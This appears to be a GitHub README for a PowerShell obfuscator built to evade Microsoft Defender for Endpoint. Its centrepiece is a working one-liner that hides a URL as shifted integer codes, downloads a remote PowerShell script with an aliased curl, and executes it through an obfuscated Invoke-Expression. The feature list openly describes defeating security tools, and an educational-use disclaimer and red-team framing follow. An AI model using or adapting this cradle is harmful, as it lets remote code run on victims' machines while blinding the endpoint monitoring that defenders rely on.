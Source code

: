 # ps1-obfuscator
A ps1 obfuscator designed to help run fkmde or other tools for use in environments with Microsoft Defender for Endpoint (MDE).

```
powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)" 
```

## Features
- **URL Obfuscation**: Transforms URL into a series of ASCII values, making them less recognizable to security tools.
- **Random Variable Generation**: Creates random variable names to further obscure the script and reduce the chance of detection.
- **CMD Compatibility**: The generated obfuscated script can be executed in the Windows Command Prompt, allowing for seamless integration into various workflows.
  
## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- This obfuscation technique was observed in a live Security Operations Center (SOC) incident and adapted for red-teaming purposes.
